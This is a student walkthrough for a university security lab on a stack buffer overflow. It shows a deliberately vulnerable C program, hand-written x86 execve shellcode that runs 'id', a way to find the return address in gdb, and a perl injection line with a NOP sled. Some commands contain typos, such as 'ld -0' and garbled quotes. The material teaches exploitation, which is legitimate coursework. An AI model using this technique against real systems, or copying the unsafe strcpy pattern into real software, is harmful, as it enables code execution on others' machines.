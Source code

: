 ```yaml
---
title: CS363 Lab 2 Walkthrough
---
```


# CS363 Lab2 Walkthough (Fall 2016)

**By Devon Smith and Aaron Earl**

## Compiling and testing the vulnerable application


```c 
//
//  vulnerable.c
//  
//
//  Created by Yanwei Wu on 10/12/17.
//

#include <stdio.h>
#include <string.h>

void foo (char *arg) {
    char buffer[64];
    strcpy(buffer, arg);
}

int main(int argc, char *argv[]) {
    foo(argv[1]);
    return(0);
}
``` 

### Compiling the C Application

```sh
gcc -g vulnerable.c -o vulnerable.x
```
The -g option enables the debugging mode built into the gcc compiler. The -o tells 
the compiler how to name the compiled executable.

### Testing the C Application

```sh
./vulnerable.x A
```

This will not overflow the buffer and will run normally.

```sh
./vulnerable.x AAAAAAAAAAAAAAAAAA
```

This will cause a buffer overflow and segmentation fault. This can be exploited to create 
the shellcode injection attack.

## Writing Application using Intel x86 Assembly
For this project we're going to be creating an assembly application that returns the 
user ID of the current Linux shell user.

Here is the program in C

```c
#include <stdlib.h>
#include <stdio.h>

void main()
{
    system("id");
}
```

This will look like this in ASM

```asm
section .text
global _start
_start:
    ; Clear out all of the registers
    ; xoring registers with themselves nulls them out
    xor eax, eax ; technically using eax 8-bit equivalent
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx
    ; pushing a null character onto the stack. Since shell code
    ; will not allow the use of null characters we're pushing the value
    ; of a register that is known to contain a null value.
    push    eax
    ; here we push the command we wish to execute using execve. In this
    ; case, "/usr/bin/id". In this case the characters don't fit nicely
    ; into a register so we're going to add a slash to the string as
    ; follows:
    ; "/usr/bin//id"
    ; Remember: This is a stack so we're going to be pushing this string onto the stack in reverse.
    push    0x64692f2f ; di//
    push    0x6e692f2f ; nib/
    push    0x7273752f ; rsu/
    ; Now we move the value of the stack pointer into ebx.
    mov ebx, esp
    ; Then we place a null onto the top of the stack after the
    ; current edx stack pointer.
    push    edx
    ; No we move the current stack pointer address into ecx.
    mov ecx, esp
    ; Now we null edx
    xor edx, edx
    ; Here we move the kernel shell call for execve (11) into al.
    ; Note: al is the 8-bit version of the eax register.
    mov al, 0xb
    int 0x80
```

Another good resource for ASM tutorials can be found here: [ASM Tutor]("http://asmtutor.com/")

### Experimenting with BASH
First we're going to run the id application in BASH so we can see how it works.

```sh 
root@Hacking_Live:/# /usr/bin/id
uid=0(root) gid=0(root) groups=0(root)
```

id is the application we want to run with our shell code. To start this process we're
going to take our x86 assembly and turn it into code. To do this we take the asm above
and save it into a .asm file. Then we use nasm to compile and dump out the assembly into its
byte code.

```sh
nasm -f elf shellcode.asm
ld -0 shellcode shellcode.asm
objdump -d shellcode
```

The above shell commands will compile, load, and dump out the bytecode of the assembly. We can use the bytecode to turn into an injectable attack and run our program inside the vulnerable
c program.

## Identify the Return Address

To actually inject the shell code we need to identify the return address of the vulnerable program. You can place break points and try to identify it by overflowing, or you can use the gdb command print &ebp to get the base pointer address. You must add 4 to this to get the actual return address. In this case mine ended up being \x50\xf7\xff\xbf. This is reversed from what is printed out because Intel systems are little endian.
  

## Creating Shell Code from x86 Assembly Code

The shell code should print out as pairs of numbers. To inject it into the vulnerable program we can do this:

```sh
$(perl –e ‘ print \”x90”x25; print “\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x2f\x2f\x69\x64\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x89\xe1\x31\xd2\xb0\x0b\xcd\x80”; print “\x50\xf7\xff\xbf”x5’)
```

The first part of this is called the NOP Sled. This pads the injection with No Ops to ensure that the buffer is overflowed and our code will be inserted. The second print will insert our program into the vulnerable program. The third print takes the return address and runs the program from there. The x5 prints the address 5 times to ensure that the system doesn't shift the addresses to compensate for oveflow. If you find your return addresses keep shifting this could be the most likely cause.

**Hope this helps**

## Resources and Notes:

Further class readings and source code can be found in my CS363 Repository.
[CS363 Repository]("https://github.com/aearl16/CS363")